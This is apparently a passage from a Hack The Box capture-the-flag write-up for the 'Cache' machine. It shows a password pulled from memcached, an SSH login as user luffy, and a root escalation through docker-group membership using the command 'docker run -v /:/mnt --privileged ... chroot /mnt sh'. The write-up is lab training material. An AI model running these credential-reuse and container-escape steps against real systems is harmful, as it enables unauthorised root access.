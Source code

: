 ```text
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get link
VALUE link 0 21
https://hackthebox.eu
END
get file
VALUE file 0 7
nothing
END
get account
VALUE account 0 9
afhj556uo
END
```

using `luffy:0n3_p1ec3` was able to ssh in as `luffy`!

## Enumeration as `luffy`

```text
luffy@cache:/dev/shm$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

Hmm docker...I saw that running on 172.17.0.1 earlier but wasnt able to connect. Using luffy's creds however I was able to SSH in to the docker container. confusingly...the docker container was also named `cache` so at first it looked like I had just logged back into the same machine.

[https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

> This requires the user to be privileged enough to run docker, i.e. being in the docker group `docker run -v /:/mnt --rm -it --privileged alpine chroot /mnt sh` from the man page

* Usage:  docker run \[OPTIONS\] IMAGE \[COMMAND\] \[ARG...\]
* -i, --interactive                    Keep STDIN open even if not attached
* -t, --tty                            Allocate a pseudo-TTY
* -v, --volume list                    Bind mount a volume
* --rm                             Automatically remove the container when it exits

[https://docs.docker.com/engine/reference/commandline/](https://docs.docker.com/engine/reference/commandline/)

```text
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        10 months ago       64.2MB
```

None of the pages I looked at explained the 'alpine' part of the command, but it looked like the name of the docker image. after trying `cache` and getting an error, I looked in the man page for how to get the image name and came up with `docker images`. The name of this docker container was `2ca708c1c9cc`. Now I could run my command to escalate to root. `docker run -v /:/mnt --rm -it --privileged 2ca708c1c9cc chroot /mnt sh`
